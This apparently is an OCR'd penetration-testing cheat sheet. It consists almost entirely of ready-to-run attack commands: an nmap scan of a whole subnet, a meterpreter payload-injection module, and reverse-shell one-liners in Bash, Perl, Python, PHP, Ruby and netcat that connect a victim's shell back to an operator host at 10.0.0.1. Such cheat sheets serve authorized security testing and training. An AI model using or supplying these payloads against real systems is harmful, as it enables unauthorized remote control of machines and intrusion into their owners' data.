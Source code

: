 ```nmap -sS -O -p1-65535 --script banner 192.168.1.1/24```
Dirwalk Windows

```meterpreter> use post/window/manage/payload_inject```

Create a new shell on box you already owned. 2 is 1 and 1 is none. Can be used to send session to another user

## Reverse Shells

### Bash

```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

### Perl

```perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

### Python

```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

### Python Psuedo terminal

```python -c "import pty;pty.spawn('/bin/bash')"```

Use this on raw shells

### PHP

```php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```

### Ruby

```ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

### Netcat

```nc -e /bin/sh 10.0.0.1 1234```

Reverse shell Linux

```nc 10.10.0.1 1234 -e cmd.exe```

Reverse shell Windows

### References

[Reverse shell cheat sheet](Reverse shell cheat sheet) - Pentestmonkeys

[Netcat cheat sheet v1](http://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf) - Sans Penetration Testing
